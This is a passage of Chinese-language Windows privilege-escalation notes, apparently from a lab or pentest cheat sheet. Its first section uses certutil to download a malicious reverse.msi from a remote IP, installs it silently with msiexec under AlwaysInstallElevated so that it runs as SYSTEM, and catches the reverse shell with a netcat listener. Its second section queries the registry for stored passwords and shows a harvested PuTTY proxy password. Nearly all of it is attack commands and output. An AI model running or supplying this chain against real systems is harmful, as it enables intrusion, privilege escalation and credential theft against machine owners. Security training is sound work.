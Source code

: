 
### 複製惡意檔案
```
certutil.exe -urlcache -split -f http://10.18.70.197/reverse.msi
```




### 啟用AlwaysInstallElevated後，可以通過命令行調用msiexec安裝msi文件，msi文件內包含要執行的Payload，Payload將會以System權限執行

```
msiexec /quiet /qn /i C:\PrivEsc\reverse.msi
```

```
/i 參數用來表示安裝操作

/q 參數用來隱藏安裝界面

/qn 不使用 GUI 進行安裝
```


### NC 監聽 獲得shell 
```
nc -lvnp 53
```



## 密碼 - 註冊表


### 找尋註冊表中含有 password 字段
```
reg query HKLM /f password /t REG_SZ /s

reg query HKCU /f password /t REG_SZ /s

```


### 找到password字段
```
//
reg query HKCU /f password /t REG_SZ /s

HKEY_CURRENT_USER\Software\Microsoft\Windows\Winlogon\PasswordExpiryNotification
    NotShownReason    REG_SZ    PasswordNeverExpires

HKEY_CURRENT_USER\Software\SimonTatham\PuTTY\Sessions\BWP123F42
    ProxyPassword    REG_SZ    password123

```
